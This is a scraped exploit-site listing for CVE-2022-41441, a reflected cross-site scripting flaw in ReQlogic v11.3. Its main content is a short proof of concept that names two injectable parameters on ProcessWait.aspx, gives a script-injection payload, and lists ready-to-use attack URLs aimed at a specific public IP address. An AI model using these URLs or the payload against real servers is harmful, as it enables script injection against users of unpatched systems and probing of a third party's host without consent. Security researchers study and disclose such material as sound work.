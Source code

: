 ```yaml
---
title: ReQlogic v11.3 - Reflected Cross-Site Scripting Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38360&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-29
fetch_date: 2025-10-04T10:57:05.528111
---
```


# ReQlogic v11.3 - Reflected Cross-Site Scripting Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for ReQlogic v11.3 - Reflected Cross-Site Scripting Vulnerability CVE-2022-41441

2023-03-28 | CVSS 6.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38360
# Exploit Title: ReQlogic v11.3 - Reflected Cross-Site Scripting (XSS)
# Exploit Author: Okan Kurtulus
# Vendor Homepage: https://reqlogic.com
# Version: 11.3
# Tested on: Linux
# CVE : 2022-41441

# Proof of Concept:
1- Install ReQlogic v11.3
2- Go to https://localhost:81/ProcessWait.aspx?POBatch=test&WaitDuration=3
3- XSS is triggered when you send the XSS payload to the POBatch and WaitDuration parameters.

#XSS Payload:
</script><script>alert(1)</script>

#Affected Prameters
POBatch
WaitDuration

#Final URLs
http://20.36.214.225:81/ProcessWait.aspx?POBatch=</script><script>alert(1)</script>&WaitDuration=3
http://20.36.214.225:81/ProcessWait.aspx?POBatch=test&WaitDuration=</script><script>alert(1)</script>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)